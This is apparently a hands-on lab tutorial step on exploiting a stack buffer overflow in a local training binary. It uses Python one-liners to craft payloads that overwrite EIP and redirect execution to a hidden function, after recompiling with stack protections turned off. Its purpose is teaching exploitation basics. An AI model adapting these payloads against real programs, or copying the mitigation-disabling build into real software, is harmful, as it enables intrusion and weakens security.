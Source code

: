 # Leverage python for payload crafting 

## Install python

`apt install -y python python3 python-dev python3-dev python3-pip`{{execute}}

## python exploitation:

As a reminder:
- the secretHiddenFunction address is `\xce\x92\x04\x08` in python
- The payload is `./vuln AAAAAAAAAAAAAAAABBBBCCCCDDDDEEEE` with EEEE to be replaced by the above address.

In python2 we can generate a payload with:

`python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xce\x92\x04\x08')"`{{execute}}

The 28 characters are called the offset and could be any character. The next 4 bytes are used to overwrite the EIP and must point to the function we want to execute.

Let's try the exploit:

`./vuln \`python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xce\x92\x04\x08')"\``{{execute}}

or 

`./vuln $(python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xce\x92\x04\x08')")`{{execute}}

Et voila! we have successfully reached a piece of code which is never called, and we no longer have any segmentation fault. Which means that the signal handler is not a strong mitigation.

## What if the buffer size get too large?

Because our buffer size is only 16, it is quite easy to type by hand a larger sequence of character. But what if the buffer size is 2048, or 16384? even with copy-pasting it becomes tedious to crash the programme with a segmentation fault.

Let's modify the size of the buffer to 2048. We will use a command-line editor called vim (Feel free to use `nano` if you are not comfortable with `vim`). If you are stuck in vim, you can quit at any time by typing `<ESC>qa!`.

1. open the source file in vim: `vim ./vuln.c`{{execute}}
2. direct jump to the buffer size 16 by typing: `/16<ENTER>`
3. change the word (cw) under the cursor with the value 2048: `cw2048`
4. save and quit with: `<ESC>ZZ` or `<ESC>wq` (write then quit)

Recompile:

`gcc -m32 -O0 -fno-stack-protector -no-pie -z execstack  -o vuln vuln.c`{{execute}}

## generate a large payload 

`python -c "print('A'*2048 + 'B'*4 + 'C'*4 + 'D'*4 + 'E'*4 + 'F'*4)"`{{execute}}

`./vuln $(python -c "print('A'*2048 + 'B'*4 + 'C'*4 + 'D'*4 + 'E'*4 + 'F'*4)")`{{execute}}

`dmesg | tail -2`{{execute}}

`./vuln $(python -c "print('A'*2048 + 'B'*4 + 'C'*4 + 'D'*4 + '\xce\x92\x04\x08')")`{{execute}}

